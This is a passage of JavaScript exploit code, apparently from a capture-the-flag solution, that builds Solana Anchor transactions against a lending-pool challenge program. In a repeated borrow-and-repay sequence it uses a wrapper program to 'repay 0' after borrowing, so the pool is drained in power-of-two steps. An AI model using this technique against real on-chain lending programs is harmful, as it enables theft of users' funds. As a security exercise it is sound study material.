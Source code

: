 ```
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),

// We repeat the exploit for each power of two: 32, 16, 8, 4, 2, 1
// Borrow 32
program.instruction.borrow(new BN(32), {
    accounts: {
        player: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        instructions: anchor.web3.SYSVAR_INSTRUCTIONS_PUBKEY,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
// Repay 0
wrapperProgram.instruction.repay({
    accounts: {
        player: player.publicKey,
        user: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
        challenge3Program: new anchor.web3.PublicKey(accounts.programId),
    }
}),
// Borrow 32
program.instruction.borrow(new BN(32), {
    accounts: {
        player: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        instructions: anchor.web3.SYSVAR_INSTRUCTIONS_PUBKEY,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
// Repay 32
program.instruction.repay(new BN(32), {
    accounts: {
        player: player.publicKey,
        user: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),

// ...
// repeated instructions
// ...

// Borrow 1
```